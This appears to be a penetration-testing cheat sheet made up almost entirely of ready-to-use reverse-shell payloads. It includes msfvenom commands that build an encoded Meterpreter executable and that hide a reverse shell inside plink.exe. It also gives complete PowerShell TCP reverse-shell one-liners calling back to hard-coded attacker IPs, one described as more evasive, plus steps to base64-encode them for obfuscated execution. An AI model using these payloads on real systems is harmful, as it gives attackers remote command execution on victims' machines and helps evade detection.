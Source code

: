 ```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
#### Embedded inside executable

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

#### Powershell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.225',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

Apparently this is a more evasive way of doing it:

powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.100',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();"




PowerShell one-line example w/ encoding:

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.225",8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | OutString );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng th);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText

or 

$MyCommand = '$callback = New-Object System.Net.Sockets.TCPClient("192.168.45.225",8080);$stream = $callback.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$callback.Close()'

$MyBase64 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("$MyCommand"))

$MyBase64


```
